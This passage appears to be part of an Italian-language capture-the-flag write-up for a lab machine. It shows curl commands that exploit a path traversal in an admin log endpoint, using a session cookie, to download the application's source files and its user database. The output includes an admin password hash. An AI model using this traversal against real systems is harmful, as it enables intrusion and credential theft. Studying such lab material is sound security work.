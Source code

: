 ```bash
        if collection_to_add not in existing_collection_names_in_database:
            current_database_data.setdefault('image_collections', []).append({'name': collection_to_add})
    _save_data(current_database_data)
    for user_entry in current_database_data.get('users', []):
        user_log_file_path = os.path.join(SYSTEM_LOG_FOLDER, f"{user_entry['username']}.log")
        if not os.path.exists(user_log_file_path):
            with open(user_log_file_path, 'w') as f:
                f.write(f"[{datetime.now().isoformat()}] Log file created for {user_entry['username']}.\n")
    port = int(os.environ.get("PORT", 8000))
    if port in BLOCKED_APP_PORTS:
        print(f"Port {port} is blocked for security reasons. Please choose another port.")
        sys.exit(1)
    app_core.run(debug=False, host='0.0.0.0', port=port)

```

## Source Code Analysis

Si scaricano gli altri file dell'applicazione seguendo i **file importati** in **app.py**.

```bash

$ files=(app.py config.py utils.py api_auth.py api_upload.py api_manage.py api_edit.py api_admin.py api_misc.py)

$ for file in $files; \
do curl 'http://10.x.x.x:8000/admin/get_system_log?log_identifier=../'$file \
        -H 'Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNq_UA.7kh-aEeche1Wr4QCdoLXiNLvGtU' \
        -H 'Priority: u=0, i' | tee $file; \
done

```

Nel file **config.py** viene specificato il filename **db.json**.

```text

DATA_STORE_PATH = 'db.json'

```

Lo si scarica e ispeziona.

```bash

$ curl 'http://10.x.x.x:8000/admin/get_system_log?log_identifier=../db.json' \  
        -H 'Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNq_UA.7kh-aEeche1Wr4QCdoLXiNLvGtU' \
        -H 'Priority: u=0, i' | tee db.json
{
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "isAdmin": true,
            "displayId": "a1b2c3d4",
            "login_attempts": 0,
            "isTestuser": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
```